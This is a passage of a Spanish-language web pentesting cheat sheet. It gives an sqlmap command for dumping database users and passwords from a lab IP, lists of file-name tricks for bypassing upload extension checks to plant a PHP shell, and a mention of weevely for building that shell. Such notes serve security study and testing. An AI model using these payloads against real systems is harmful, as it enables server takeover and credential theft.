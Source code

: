 ```javascript

sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords
```

## Como detectar File Upload

Esta vulnerabilidad puede ser muy potente ya que podemos llegar a tomar el control total de un servidor que sea vulnerable cargando una shell.

Los pasos que tendremos que seguir seran los siguientes:

1. Verificar las extensiones permitidas
2. Verificar en que momento el servidor hace la comprobacion
3. Saber que extensiones no estan permitidas
4. Verificar si se codifica

**Omitir comprobaciones de extensiones de archivo** 

1. Verifica añadiendo una extension valida antes de la extension de ejecucion

   -archivo.png.php

2.  Agregar caracteres especiales al final. Para esto existen herramientas como Burp que nos ayudaria a aplicar la fuera bruta de los caracteres ASCII y Unicode.

   ```
   file.php%0a
   file.php%20
   file.php%00
   file.php%0d%0a
   file.php/
   file.php.\
   file.php....
   file.pHp5....
   ```

3. Tambien podemos intentar engañar al analizador del servidor duplicando las extensiones o añadiendo datos basura

   ```
   file.png.php
   file.png.pHp5
   file.php%00.png
   file.php\x00.png
   file.php%0a.png
   file.php%0d%0a.png
   flile.phpBasura123png
   ```

   Si conseguimos subir alguna extension como php o python podremos ejecutar un Payload para conseguir el control del servidor, para pode crear el Payload con la shell podremos utilizar weevely, esto nos dejara crear la extension del fichero con un Payload para poder connectarnos.

   

   ## Como detectar XSS
